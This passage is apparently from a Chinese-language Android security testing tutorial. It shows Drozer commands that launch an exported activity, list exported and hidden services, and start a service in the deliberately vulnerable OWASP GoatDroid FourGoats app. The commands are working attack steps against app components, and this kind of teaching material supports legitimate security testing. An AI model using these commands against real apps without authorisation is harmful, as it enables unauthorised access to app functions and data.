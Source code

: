 ![Attacks on activities](../Images/image01465.jpeg)

运行以下命令将启动活动：

```
dz> run app.activity.start --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.activities.ViewProfile
dz>

```

如果在运行上述命令后注意到 emulator，则应看到启动了以下活动：

![Attacks on activities](../Images/image01466.jpeg)

## 对服务的攻击

与活动类似，我们可以使用 Drozer 调用服务。以下命令列出了从目标应用程序导出的所有服务：

```
dz> run app.service.info -a [package name]

```

在 GoatDroid 应用程序上运行上述命令将导致以下结果：

```
dz> run app.service.info -a org.owasp.goatdroid.fourgoats
Package: org.owasp.goatdroid.fourgoats
 org.owasp.goatdroid.fourgoats.services.LocationService
 Permission: null

dz>

```

正如您在前面的摘录中所看到的，我们已经获得了导出的服务。

正如我们在活动中看到的，我们还可以使用`–u`标志列出未导出的服务：

```
dz> run app.service.info -a org.owasp.goatdroid.fourgoats -u
Package: org.owasp.goatdroid.fourgoats
 Exported Services:
 org.owasp.goatdroid.fourgoats.services.LocationService
 Permission: null
 Hidden Services:

dz>

```

正如您可以在前面的摘录中看到的，此应用程序没有任何未导出的服务。

现在，我们可以使用以下 Drozer 命令启动服务：

```
dz> run app.service.start --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService

```
